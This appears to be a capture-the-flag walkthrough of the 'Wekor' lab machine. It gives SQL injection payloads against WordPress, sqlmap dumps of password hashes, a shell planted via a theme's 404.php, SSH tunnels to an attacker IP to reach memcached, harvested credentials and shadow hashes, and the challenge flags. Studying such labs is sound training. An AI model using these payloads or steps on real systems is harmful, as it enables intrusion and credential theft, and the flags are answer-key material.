# WEKOR


## NMAP SCAN

```text
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:c3:ce:af:07:fa:e2:8e:29:04:e4:cd:14:6a:21:b5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDn0l/KSmAk6LfT9R73YXvsc6g8qGZvMS+A5lJ19L4G5xbhSpCoEN0kBEZZQfI80sEU7boAfD0/VcdFhURkPxDUdN1wN7a/4alpMMMKf2ey0tpnWTn9nM9JVVI9rloaiD8nIuLesjigq+eEQCaEijfArUtzAJpESwRHrtm2OWTJ+PYNt1NDIbQm1HJHPasD7Im/wW6MF04mB04UrTwhWBHV4lziH7Rk8DYOI1xxfzz7J8bIatuWaRe879XtYA0RgepMzoXKHfLXrOlWJusPtMO2x+ATN2CBEhnNzxiXq+2In/RYMu58uvPBeabSa74BthiucrdJdSwobYVIL27kCt89
|   256 4d:99:b5:68:af:bb:4e:66:ce:72:70:e6:e3:f8:96:a4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKJLaFNlUUzaESL+JpUKy/u7jH4OX+57J/GtTCgmoGOg4Fh8mGqS8r5HAgBMg/Bq2i9OHuTMuqazw//oQtRYOhE=
|   256 0d:e5:7d:e8:1a:12:c0:dd:b7:66:5e:98:34:55:59:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJvvZ5IaMI7DHXHlMkfmqQeKKGHVMSEYbz0bYhIqPp62
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 9 disallowed entries 
| /workshop/ /root/ /lol/ /agent/ /feed /crawler /boot 
|_/comingreallysoon /interesting
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 ENUMERATION



### ROBOTS.TXT

```text
] Disallow: /workshop/
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /root/
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /lol/
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /agent/
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /feed
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /crawler
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /boot
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /comingreallysoon
[-] [10.10.250.239 tcp/80/curl-robots] Disallow: /interesting
```

### /COMINGREALLYSOON

```text
Welcome Dear Client! We've setup our latest website on /it-next, Please go check it out! If you have any comments or suggestions, please tweet them to @faketwitteraccount! Thanks a lot !
```

### IT-NEXT


### POSSIBLY USERS


### SQLi



#### DATABASES



```text
' UNION SELECT table_schema,table_name,null from information_schema.tables where table_schema='wordpress';-- -
```



```text
' UNION SELECT column_name,null,null from information_schema.columns where table_schema='wordpress' and table_name='wp_users';-- -
```



### SQLMAP



```text
$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. | admin@wekor.thm   | admin
$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10:rockyou | jeffrey@wekor.thm | wp_jeffrey
$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/:soccer13 | yura@wekor.thm    | wp_yura
$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/:xxxxxx | eagle@wekor.thm   | wp_eagle
```

[http://site.wekor.thm/wordpress](http://site.wekor.thm/wordpress)

## WORDPRESS



* LOGIN with wp\_yura





## GET A SHELL



```text
http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php
```



## MACHINE ENUMERATION

### USERS WITH CONSOLE

```text
root:x:0:0:root:/root:/bin/bash
Orka:x:1001:1001::/home/Orka:/bin/bash
```

### WP-CONFIG.PHP



```text
root:root123@#59
```

### SSH REMOTE PORT FORWARDING

#### PORT 631 CUPS \(RABBIT HOLE\)

```text
ssh -R 8083:127.0.0.1:631 livestep@10.9.214.87
```



#### PORT 11211 MEMCACHED

```text
ssh -R 8083:127.0.0.1:11211 livestep@10.9.214.87
```





```text
Orka:OrkAiSC00L24/7$
```















## CREDS

```text
root:$6$U74SIJ/h$mPFIyr3eHrBl2TC09.NcIc9xz8IoLyM0zjrv1.yFzoyhOCXj0k0UHUILfWP4rIwLVfsYwgjTiZ0k.wqVQGXlC1:18455:0:99999:7:::
Orka:$6$R7T8IDoy$D8HwL91F7FWoDhqH7bgIHrr8twG0D0RIMUOUuFAYWq9TgcN5g5crzyyNPbeukHQRu.Leo5Ykuhol4SLuMr11M0:18455:0:99999:7:::
```

## FLAGS

### USER

```text
1a26a6d51c0172400add0e297608dec6
```

### ROOT

```text
f4e788f87cc3afaecbaf0f0fe9ae6ad7
```

